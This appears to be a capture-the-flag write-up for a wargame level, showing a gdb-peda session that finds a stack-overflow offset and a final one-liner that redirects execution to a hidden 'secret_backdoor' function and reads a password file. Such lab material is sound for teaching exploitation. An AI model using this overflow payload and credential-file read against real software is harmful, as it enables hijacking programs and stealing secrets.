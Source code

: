# Level 09

<pre>
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADA...'
gdb-peda$ r < <(python -c "print('\xff' * 120)"; echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA...')
[----------------------------------registers-----------------------------------]
RBP: 0x417941417841415a ('ZAAxAAyA')
<strong>RSP: 0x7fffffffe4b8 ("AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%")</strong>
RIP: 0x555555554931 (<handle_msg+113>:  ret)
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:     lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:     call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:     leave  
=> 0x555555554931 <handle_msg+113>:     ret    
   0x555555554932 <set_msg>:    push   rbp
   0x555555554933 <set_msg+1>:  mov    rbp,rsp
   0x555555554936 <set_msg+4>:  sub    rsp,0x410
   0x55555555493d <set_msg+11>: mov    QWORD PTR [rbp-0x408],rdi
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000555555554931 in handle\_msg ()
gdb-peda$ pattern offset AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%
<strong>AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A% found at offset: 200</strong>
</pre>

<pre>
(gdb) disass secret_backdoor 
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   %rbp
</pre>

```
$ (python -c "print('\xff' * 120)"; python -c "import struct; print('A' * 200 + struct.pack('<q', 0x55555555488c))"; echo 'cat /home/users/end/.pass' ) | ./level09
```
